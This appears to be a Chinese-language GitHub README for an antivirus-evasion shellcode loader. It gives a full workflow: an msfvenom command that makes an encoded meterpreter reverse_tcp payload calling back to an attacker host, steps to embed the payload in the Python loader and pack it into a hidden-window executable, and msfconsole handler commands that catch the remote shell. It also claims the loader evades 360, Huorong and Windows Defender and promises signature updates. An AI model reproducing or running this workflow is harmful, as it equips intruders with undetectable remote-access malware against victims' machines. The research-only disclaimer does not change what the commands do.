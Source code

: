 # Bypass_AV
Bypass_AV msf免杀，ShellCode免杀加载器 ，免杀shellcode执行程序 ，360&amp;火绒&amp;Window Defender
代码够简单，估计要不了多久就进特征库了，被杀了再去改几个特征码照样又可以免杀，保持更新。

## 声明

#### 该项目仅供网络安全研究使用，禁止使用该项目进行违法操作，否则自行承担后果，请各位遵守《中华人民共和国网络安全法》！！！


代码未经过大量测试，如发现问题请提交 issue。

## 环境
2022年5月8日 测试可以免杀国内杀软 火绒&360及Window Defender

Windows 10 64位   360&火绒&Window Defender

Windows 7 64位  或以上操作系统应该都没问题（没有测试）


## 使用msfvenom

生成ShellCode


```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.100 lport=8080 --encrypt base64 -f c
```

注意：ShellCode 需要是64位的

![image-20220508135022087](https://user-images.githubusercontent.com/34683107/167286509-b134001a-e463-495c-ab6b-78933050b14f.png)
## 加载器

将生成的ShellCode 填至 Bypass_AV.py 里的 ShellCode = '''**ShellCode**''' 处

注意：保留原始ShellCode 里的双引号 "

示例：

![image-20220508134821387](https://user-images.githubusercontent.com/34683107/167286553-0367af02-f64d-4e28-8b01-3080ae98c13f.png)


最终格式：

![image-20220508135655093](https://user-images.githubusercontent.com/34683107/167286556-9b847ebb-0408-43f6-836c-3ac7fac46788.png)



## 打包成可执行程序
编译

Python  3.8.6

pyinstaller 4.7

```
pip install pyinstaller 
pyinstaller -F -w Bypss_AV.py
```

生成Bypass_AV.exe在dist目录中



## 运行监听

```
msfconsole
msf6 > use exploit/multi/handler 
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
msf6 exploit(multi/handler) > run
```



### Bypass_360


https://user-images.githubusercontent.com/34683107/167286823-a93fdd69-547e-4adc-9ae5-171fb0e919ca.mov


### Bypass_火绒

https://user-images.githubusercontent.com/34683107/167286897-a482c486-c3e9-4f69-ae55-98afd2ff1ed7.mov


### Bypass_Window Defender

https://user-images.githubusercontent.com/34683107/167286874-9413611e-c2be-4cfb-ba51-f95ebe5518af.mov


感谢阅读

![Axx8](https://user-images.githubusercontent.com/34683107/167286522-4a5fb52c-f975-4ca1-ba6d-6333fd9ff046.jpg)
